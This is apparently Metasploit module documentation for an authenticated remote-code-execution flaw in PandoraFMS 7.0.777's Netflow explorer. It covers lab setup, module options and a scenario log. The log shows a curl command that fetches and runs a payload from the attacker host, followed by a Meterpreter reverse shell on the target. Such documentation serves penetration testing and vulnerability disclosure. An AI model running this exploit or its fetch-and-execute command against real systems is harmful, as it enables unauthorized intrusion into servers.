 ## Vulnerable Application

PandoraFMS offers multiple modules that can be turned on or off with an administrative account.
One of them is Netflow, which is responsible for real-time network monitoring.
It can collect network data and then report or dump it.
Once Netflow is configured, it allows you to perform various tasks, such as viewing and exporting network data.

The Netflow explorer contains a vulnerability when an unsanitized parameter from the Netflow configuration is placed into a string that gets executed using the exec() function.

The PandoraFMS can be installed from [here](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/777/Tarball/):

1. Download vulnerable PandoraFMS
2. Install webserver - Apache2, MySQL, PHP
3. Following installation steps of PandoraFMS
4. Run: `sudo apt install nfdump`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/pandora_fms_auth_netflow_rce`
1. Do: `set rhosts [target IP]`
1. Do: `set lhost  [attacker IP]`
1. Do: `set username  [username]`
1. Do: `set password  [password]`
1. Do: `run`
1. You should get a shell.

## Options


### USERNAME

Login username of existing user.

### PASSWORD

Login password of existing user.

## Scenarios

```
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set rhosts 192.168.168.146
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set PASSWORD pandora
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set USERNAME admin
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > run verbose=true 
[*] Command to run on remote host: curl -so ./khZKmkFYijJ http://192.168.168.128:8080/M1We21fZKyvgtWK9IWStLA;chmod +x ./khZKmkFYijJ;./khZKmkFYijJ&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /M1We21fZKyvgtWK9IWStLA
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] 192.168.168.146:80 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.168.146:80 - Version 7.0.777 detected
[+] 192.168.168.146:80 - The target is vulnerable. Vulnerable PandoraFMS version 7.0.777 detected
[*] Client 192.168.168.146 requested /M1We21fZKyvgtWK9IWStLA
[*] Sending payload to 192.168.168.146 (curl/7.68.0)
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 192.168.168.146:54980) at 2025-06-25 12:27:52 +0200

meterpreter > sysinfo
Computer     : 192.168.168.146
OS           : Ubuntu 20.04 (Linux 5.15.0-136-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux```

For example:

To do this specific thing, here's how you do it:

```
msf > use module_name
msf auxiliary(module_name) > set POWERLEVEL >9000
msf auxiliary(module_name) > exploit
```

